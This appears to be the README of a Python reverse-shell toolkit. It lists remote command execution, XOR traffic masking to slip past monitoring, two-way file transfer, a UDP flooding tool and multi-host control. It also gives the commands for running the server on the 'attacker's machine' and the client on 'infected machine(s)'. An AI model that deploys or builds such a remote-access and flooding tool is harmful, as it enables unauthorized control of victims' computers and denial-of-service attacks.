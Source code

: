 # reverse_shell
> A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

NOTE : As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

*[1]The idea for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check primalsecurity.net's perfect blogpost about producing an .exe

## Deployment:

* `rev_shell_server.py` or `rev_shell_server_min.py` is situated at the attacker's machine and running to accept connections
* `rev_shell_client.py` or `rev_shell_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
  python rev_shell_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rev_shell_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Todo

* Fix logic bug where if a dirrect command to Host OS has no output or its execution is perpetual the Server deadlocks

## License

MIT
